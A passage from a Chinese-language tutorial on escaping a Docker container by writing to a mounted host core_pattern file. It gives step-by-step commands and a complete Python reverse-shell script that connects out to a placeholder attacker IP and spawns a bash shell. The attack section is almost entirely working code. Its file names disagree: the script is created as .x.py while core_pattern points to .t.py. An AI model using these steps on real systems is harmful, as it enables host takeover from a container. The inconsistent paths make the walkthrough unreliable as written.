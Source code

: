 #### 漏洞利用

1. 启动容器，将/proc/sys/kernel/core_pattern 挂载到容器的/host/proc/sys/kernel/core_pattern 位置。
2. 通过在容器内执行 <code>cat /proc/mounts | grep docker </code>指令，找到当前容器在宿主机下的绝对路径
3. 在容器内创建反弹 shell 的/tmp/x.py 脚本
4. 执行 <code>echo -e "|$CONTAINER_ABS_PATH/tmp/.x.py \rcore " > /host/proc/sys/kernel/core_pattern</code>指令，使得 Linux 转储机制在程序发生崩溃时能够顺利找到容器内部的“/tmp/.x.py”。因为攻击者在容器中，“/tmp”是容器中的路径，直接使用 <code>echo -e "|/tmp/.x.py \rcore " > /host/proc/sys/kernel/core_pattern</code>无法实现容器逃逸，因为内核在寻找处理内存转储的程序时不会从容器文件系统的根目录开始。
5. 攻击端机器开启反弹 shell 监听
6. 在容器内运行一个可以制造崩溃的程序。

```bash
# 创建并启动一个容器，将/proc/sys/kernel/core_pattern挂载到容器的/host/proc/sys/kernel/core_pattern位置
docker run -it -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu:18.04
# 查找名为core_pattern的文件，如果找到两个，说明可能是挂载了宿主机的procfs
find / -name core_pattern
cat /proc/mounts | grep docker # 返回结果中：workdir=/var/lib/docker/overlay2/5d748dc3bca9db37b2f0d72b2364b4abe4c8b39e878bf1157b407414efae40fe/work
# 安装vim+gcc
apt-get update -y && apt-get install vim gcc -y
```

![89cc3186bd8946e5aee7f43188c17a4a.png](https://s2.loli.net/2023/10/07/kuvr72zQ1m6LdtZ.png)
启动一个容器时，会在/var/lib/docker/overlay2 目录下生成一层容器层，容器层里面包括 diff、link、lower、merged、work 目录，而 docker 容器的目录保存在 merged 目录中，通过此命令找到当前容器在宿主机下的绝对路径，workdir 代表的是 docker 容器在宿主机中的绝对路径。

```bash
# 创建反弹shell脚本 vim /tmp/.x.py
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "IP_ADDRESS"
lport = PORT
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   # os.remove('/tmp/.t.py')
   s.close()
if __name__ == "__main__":
   main()
```

```bash
chmod 777 /tmp/.x.py
echo -e "|/var/lib/docker/overlay2/5d748dc3bca9db37b2f0d72b2364b4abe4c8b39e878bf1157b407414efae40fe/merged/tmp/.t.py \rcore    " >  /host/proc/sys/kernel/core_pattern
```
